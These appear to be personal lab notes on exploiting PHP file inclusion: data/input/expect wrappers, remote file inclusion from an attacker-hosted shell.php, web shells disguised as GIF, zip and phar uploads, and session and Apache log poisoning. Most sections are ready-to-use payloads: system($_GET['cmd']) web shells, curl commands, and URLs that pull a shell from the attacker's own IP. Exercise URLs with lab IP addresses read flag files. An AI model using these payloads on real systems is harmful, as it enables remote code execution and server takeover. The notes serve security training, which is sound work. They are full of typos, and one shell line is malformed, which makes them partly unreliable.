


# PHP Wrappers:
We can use many methods to execute commands, each of wich has a spcific use case, as they depend on the back-end language/framework and the vulnerable funtion's capabilities.
One ez and common method for ganing control over the back-end server is by enumerating user credentials SSH Keys, and then use those to teh back-end server though SSH
or any other remote session.
For example we may dinf the db pass in a file config.php whch may match a user's password in case they re-use the same pass or can check the .ssh directory in each user's home directory, and if the read privilege are not set
properly then we may be able to grab their private key [id_rsa] and use to SHH into the system.

- Wrapper can be used to include external data, PHP code. The data wrapper is only avaliable to use if the [allow_url_include] setting is enable in the PHP configuration.
- Checking the PHP configuration:
We can include the PHP configuration file found at [/etc/php/X.Y/apache2/php.ini] for apache or at [/etc/php/X.Y/fpm/php.ini]. We can start with the latest PHP version, and try early version of we couldn't locate the configuration file.
We will also use the base64 filer we used in prev section .ini files are similar to .php files and should be encoded to avoid breaking.

`curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"`

Once we have the base64-encode string, we can decode it and grep for allow_url_include to see its value:
```sh
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
Is option is not enable by def, an is required for several other LFI attacks, like using the input wrapper or for any RFI attack, as we'll see next.

- Remote Code Execution:
With allow_url_include enable, we can proceded wothj our data wrapper attack. As mentioned earlier, the data wrapper can be used to include exeternal data, including PHP code. We can also pass it base64 encoded strings with [text/plain;base64] and it hat the ability
to decode them and execute the PHP code.
`http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`

- Input:
Similar to data wrapper the input wrapper can be used to include external input an execute PHP code. The difference between it and the data wrapper os that we pass our input to the input wrapper as a POST request data. The vulnerable parameter must accpet POST request for
this earlier attack with the input wrapper we can send a POST request to teh vulnerable URL and add our web shell as POST data.
`curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid`

- Expect:
Finally we acan utilize the expect wrappe, which allow us to directly run commands through URL streams. Expect works very similar to teh web shell.
Expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps reely on it for their core funtionality.

`echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect`
As we can see the extenbsion config keyword us used to enable the expect module, which means we should be able to use for ganing REC though the LFI vulnerability.

`curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`
Execution commands through the expect module is fairly straghfoward, as this module was designed for command execution as mentioned earlier.
We'll also cover the phar and zip wrappers in upcoming sections, which we may use with web applications that allow file uploads to gain remote execution through LFI vulnerabilities.

- Exercise:
http://94.237.121.185:38674/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls%20/
http://94.237.121.185:38674/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20/37809e2f8952f06139011994726d9ef1.txt

# Remote File Inclusion RFI:
1. Enumerating local-only ports and web apps SSRF
2. Gaining remote code execution by including a malicius script that we host.

- Local vs Remote file Inclusion:
When a vulnerable allows us to include remote files, we may be able to host a malicius scritp include in the vulnerablepage to execute malicius funtions and gain remote code execution.
Almost any RFI vulnerability is also an LFI vulnerability, as any funtions that allows including remote URLs usually alos allows including a local ones.
    1. The vulnerable funtion may not allow including a remote URLs.
    2. May only control a portion of the filename and not eh entire protocol wrapper
    3. The configuration may prevent RFI altogether, as most modern web servers disable including remote files by def.

- Verify RFI:
Including remote URLs is consideres as dangerous practise as it may allow for such vulnerability. This is why remotpe URL including is usually disable by def. Any remote URL inclusion in PHP would require
the [allow_url_include] setting to be enable.

`echo '' | base64 -d | grep allow_url_include`

This may not always be reliable, as even is this setting is enable, the vulnerable funtion may not allow remote URL inclusion to begin with. A more reliable way to determinate whether an LFI vulnerability is also
vulnerable to RFI is to try and include a URL.
`http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`
- Remote Code Execution with RFI:
First step in gaining remote code execution is creating a malicius script in the language of the web app in this case in PHP.
`echo '<?php system($_GET["cmd"}])?>' > shell.php`
All we need to do is host this script nad include it thought the RFI vulnerability. Common listening por is like 80 or 433, as these ports may be whitelists.

- HTTP:
`sudo python3 -m http.server port`
[http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id]

- FTP:
` sudo python -m pyftpdlib -p 21`
[http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id]

- SMB:
We can snip up an SMB server using Impacket's smbserver.py, which allows anonymous aith.
`impacket-smbserver -smb2support share `

- Exercise:
 Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in:
[http://10.129.218.83/index.php?language=http://10.10.14.109:8000/shell.php&cmd=cat%20/exercise/flag.txt]

# LFI and File Upload:
File funtionalities are ubquitous in most modern web app, as users usually need to configure their profile and usage of the web app by uploading their data.

the File upload Attacks modula cover diffenrent techniques on how to exploit file upload forms anbd funtionalities. For the attack we are going to discuss in this section,
we do not require the file upload form to be vulnerable, by merely allow us to upload files. If the vulnerable funtion ahas code Execute capabilities, then the code within the
file we upload will get executed if we iclude it, regardless of the file extesnion we include it through the LFI vulnerability.


- Image Uplaad:
Crafting a malicius image containing PHP web shell code that still looks and works as an image. We'll use an allowed image extension in our file name and should also include the image magic bytes at the beggining of the file content[GIF8].
[echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif]

> [!NOTE]
> We are using GIF in this case since its magic bytes are ez typed, as they are ASCII characters, while other extension have a magin bytes in binary that we would need to URL encoded. This attack would work any allowed image or file type.

Once we've upload our file path, all we need to do is include it through th LFI vulnerability. To include uplaoded file, we need to knwo thew path to our uplaodaded file.
``

> [!NOTE]
> We can use 'profile/shell.gif' for the file path. If we do not know where the file is uploaded, then we can fuzz for an upload dir, and then fuzz for our uplaoded file.
> To include to our upladed file we used ./profile-image. as in this case the LFI vulnerability does no prefix any dir  before our input.

- ZIP Upload:
There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. We can utilize zip wrapper pro execute PHP code.
[echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php]

> [!NOTE]
> Some uplaod forms may still detect our file as zip archive through content-type and disallow its upload. so this attacks has higher chance of working if the upload file of zip is allowed.
> We added the uploads directory (./profile_images/) before the file name, as the vulnerable page (index.php) is in the main directory.

- Phar Upload:
Is a similar result:
```php
<?php
$phar = new Phar('shell.phar');
$phar -> srartBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar -> setStub('<?php __HALT_COMPILER();?>');
?>
```
[php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg]
[http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id]

Another obsolete LFI/uploads attack worth nothing PHP configurationa and the phpinfo() page is somehow expose [Link](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-phpinfo.html)

- Exercise:
http://83.136.252.13:44893/settings.php
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
Upload the file and after that the URL:
[http://83.136.252.13:44893/index.php?language=./profile_images/shell.gif&cmd=cat%20/2f40d853e2d4768d87da1c81772bae0a.txt]

# Log Poisoning:
The Attacks we'll discuss in the section on the same concept; Writing PHP code in a field we control that gets logged into a log file [poison/contaminte] the log file, and then include that log file execution the PHP code.


- PHP session Poisoning:
Most PHP web app utilize PHPSESSID cookies, which can hold specific user-related data on the back-end, so wweb app can keep tracks of user details though their cookies.
These details are stored in session files on the back-end, and saved in /var/lib/php/session and in Windows C:\Windows\Temp\ .
The name of teh file that contains our user's data matches the name of our PHPSESSID cookie with the [sess_] prefix. Our cookie value is ...
The preference value is not under our control, as we did specify it anywhere and must be auto specified. The page value is under our control, as we can control [?language=] parameter.
[http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning]
[http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E]
[http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id]

> [!NOTE]
> To execute another command, /var/lib/php/session/sess_.../ after our inclusion.

- Server log Poisoning:
Apache and Nginix maintain varius logs files, such as access.log and error.log. We need to include the logs thought the LFI vulnerability, and for that we need to have read-access over the logs.
Nginx logs are readable by low privileged users by default (e.g. www-data), while the Apache logs are only readable by users with high privileges (e.g. root/adm groups). However, in older or misconfigured Apache servers, these logs may be readable by low-privileged users.
Apache logs are located on  /var/log/apache2 and C:\xampp\apache\logs while Nginx logs are located in /var/log/nginx/ on Linux and in C:\nginx\log\ on Windows.
[http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log]

The remote IP addr, request page, response code, and User-Agent header.
> [!TIP]
> Logs tend to be huge, and loading them in an LFI vulnerability may take a while to load, or even crash the server in worst-case scenarios. So, be careful and efficient with them in a production environment, and don't send unnecessary requests.

```sh
echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison
curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison

```


> [!TIP]
> The user agent header is also show on process file uncer the LInux /proc/ dir. We can try Including the /proc/self/version or /proc/self/fd/N file les (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files.

The are other similar log Poisoning tech we may utillize depending of the system log:
1. /var/log/sshd.log
2. /var/log/mail
3. /var/log/vsftp.log
We should first attempt reading these logs through LFI, and if we do have access to them, we can try to poison them as we did above. For example, if the ssh or ftp services are exposed to us, and we can read their logs through LFI,
then we can try logging into them and set the username to PHP code, and upon including their logs, the PHP code would execute.

- Exercise:
Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: pwd :

Try to use a different technique to gain RCE and read the flag at /
